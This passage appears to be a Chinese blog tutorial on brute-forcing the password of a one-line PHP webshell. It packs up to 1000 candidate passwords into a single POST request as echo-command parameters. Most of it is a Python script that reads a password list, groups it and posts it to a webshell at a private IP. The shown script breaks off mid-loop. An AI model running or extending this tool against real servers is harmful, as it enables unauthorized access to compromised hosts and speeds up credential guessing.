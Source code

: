 提交的数据是：

```
{'v5est0r': 'echo "password is v5est0r";', '12': 'echo "password is 12";', 'Admin': 'echo "password is Admin";', '1': 'echo "password is 1";', '123': 'echo "password is 123";', 'Pass': 'echo "password is Pass";', 'Test': 'echo "password is Test";'}
```

如此完美解决数据的拼接问题。


我们上面说过，Apache一次允许同时提交1000个参数，  IIS允许一次提交5883个参数。我们这里就不做具体的区分了，同一把字典以1000为单位分组：

```
post_data = {}  #创建字典集
s = open('pass.txt','r')
content = s.readlines() #分行读取字典
dics = len(content)/1000

print '当前字典中变量个数为: %s' % str(len(content))

print "字典将被分割为 %s 份" % str(dics)

group = []  #字典每行独立化,写入元组
for h in range(0,len(content)):
    password = str(content[h]).strip('\n')  #剔除换行符
    group.append(password)
#print group

```


经过如上分析，接下来就是分批提交了，这就很简单了，初始DEMO如下：

```
# -*- coding: UTF-8 -*-
#coding by v5est0r
#单次多变量提交变量方式,一句话爆破提速千倍

import requests

shell = 'http://192.168.1.103/hack.php'

#v5est0r=response.write("password:v5est0r")

post_data = {}  #创建字典集
s = open('pass.txt','r')
content = s.readlines() #分行读取字典
dics = len(content)/1000

print '当前字典中变量个数为: %s' % str(len(content))

print "字典将被分割为 %s 份" % str(dics)

group = []  #字典每行独立化,写入元组
for h in range(0,len(content)):
    password = str(content[h]).strip('\n')  #剔除换行符
    group.append(password)
#print group


#下面建立错误密码的返回标识符
post_test = {'test_pass_test': 'echo "test!!";'}
res = requests.post(shell, data=post_test)
wrong_res = res.text


for i in range(0,dics):
```
